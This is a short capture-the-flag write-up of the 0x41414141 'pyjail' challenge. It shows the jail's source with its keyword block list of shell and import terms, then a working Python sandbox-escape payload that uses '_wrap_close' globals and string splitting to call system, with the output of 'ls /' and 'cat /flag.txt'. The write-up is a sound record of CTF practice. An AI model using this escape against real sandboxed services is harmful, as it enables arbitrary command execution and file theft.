

# pyjail

This was part of the 0x41414141 CTF in January 2021.



You can download the source:

```
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()
```

You can see the filtering at play.  You cannot use most python command you'd want to use to read a file.

Found this awesome site:

https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes

Which gives this example:

```
# The os._wrap_close class is usually loaded. Its scope gives direct access to os package (as well as __builtins__)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['system']('ls')
```

We cannot use `system` due to the filtering but we *can* break it into pieces.

```
nc 45.134.3.200 1024
	1. 8.0 (default, Oct 28 2019, 16:14:01)
[GCC 8.3.0]

What would you like to say?
>>> [ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['sy'+'stem']('ls /')
```

```
app
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
>>>
```

Now we can get the flag:

```
>>> [ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['sy'+'stem']('cat /flag.txt')
flag{l3t's_try_sc0p1ng_th1s_0ne_2390098}
```